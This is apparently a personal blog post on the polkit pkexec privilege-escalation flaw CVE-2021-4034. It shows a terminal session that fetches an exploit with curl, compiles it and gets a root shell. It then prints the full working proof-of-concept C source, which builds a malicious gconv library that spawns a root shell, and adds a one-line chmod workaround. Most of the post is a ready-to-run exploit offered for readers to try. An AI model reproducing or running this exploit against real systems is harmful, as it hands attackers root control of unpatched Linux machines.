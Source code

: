 ```yaml
---
title: "Local-Privilege-Escalation-in-polkits-pkexec"
date: "2022-01-26T06:21:12-05:00"
Tags: ["vuln", "cve"]
Categories: ["security"] 
---
```

The big news in Linux today is the [Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://seclists.org/oss-sec/2022/q1/90), with [Arstechnica](https://arstechnica.com/information-technology/2022/01/a-bug-lurking-for-12-years-gives-attackers-root-on-every-major-linux-distro/) leading with, "_A bug lurking for 12 years gives attackers root on every major Linux distro - It's likely only a matter of time before PwnKit is exploited in the wild_" Needless to say, I immediately had to try it out on my own, so I got on one of my [Debian GNU/Linux](https://debian.org) servers to test it. Spoiler: it worked, here's how you can try it too.

## Howto

```
# id
uid=1000(fak3r) gid=1000(fak3r) groups=1000(fak3r),27(sudo)
$ curl -O https://haxx.in/files/blasty-vs-pkexec.c
$ gcc blasty-vs-pkexec.c
$ ./a.out
[~] compile helper..
[~] maybe get shell now?
# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1000(fak3r)
# 
```

## Workaround fix (temporary)

While this is bad, here's a quick workaround, remove the sticky bit from the binary - it's certainly untested, and will be null once a patch is released:

```
chmod 755 /usr/bin/pkexec
```

## Code

In case the C code is pulled, here's it is, again, I grabbed it from [haxx.in](https://seclists.org/oss-sec/2022/q1/90)

```
/*
 * blasty-vs-pkexec.c -- by blasty <peter@haxx.in> 
 * ------------------------------------------------
 * PoC for CVE-2021-4034, shout out to Qualys
 *
 * ctf quality exploit
 *
 * bla bla irresponsible disclosure
 *
 * -- blasty // 2022-01-25
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>

void fatal(char *f) {
    perror(f);
    exit(-1);
}

void compile_so() {
    FILE *f = fopen("payload.c", "wb");
    if (f == NULL) {
        fatal("fopen");
    }

    char so_code[]=
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n"
        "void gconv() {\n"
        "  return;\n"
        "}\n"
        "void gconv_init() {\n"
        "  setuid(0); seteuid(0); setgid(0); setegid(0);\n"
        "  static char *a_argv[] = { \"sh\", NULL };\n"
        "  static char *a_envp[] = { \"PATH=/bin:/usr/bin:/sbin\", NULL };\n"
        "  execve(\"/bin/sh\", a_argv, a_envp);\n"
        "  exit(0);\n"
        "}\n";

    fwrite(so_code, strlen(so_code), 1, f);
    fclose(f);

    system("gcc -o payload.so -shared -fPIC payload.c");
}

int main(int argc, char *argv[]) {
    struct stat st;
    char *a_argv[]={ NULL };
    char *a_envp[]={
        "lol",
        "PATH=GCONV_PATH=.",
        "LC_MESSAGES=en_US.UTF-8",
        "XAUTHORITY=../LOL",
        NULL
    };

    printf("[~] compile helper..\n");
    compile_so();

    if (stat("GCONV_PATH=.", &st) < 0) {
        if(mkdir("GCONV_PATH=.", 0777) < 0) {
            fatal("mkdir");
        }
        int fd = open("GCONV_PATH=./lol", O_CREAT|O_RDWR, 0777); 
        if (fd < 0) {
            fatal("open");
        }
        close(fd);
    }

    if (stat("lol", &st) < 0) {
        if(mkdir("lol", 0777) < 0) {
            fatal("mkdir");
        }
        FILE *fp = fopen("lol/gconv-modules", "wb");
        if(fp == NULL) {
            fatal("fopen");
        }
        fprintf(fp, "module  UTF-8//    INTERNAL    ../payload    2\n");
        fclose(fp);
    }

    printf("[~] maybe get shell now?\n");

    execve("/usr/bin/pkexec", a_argv, a_envp);
}
```
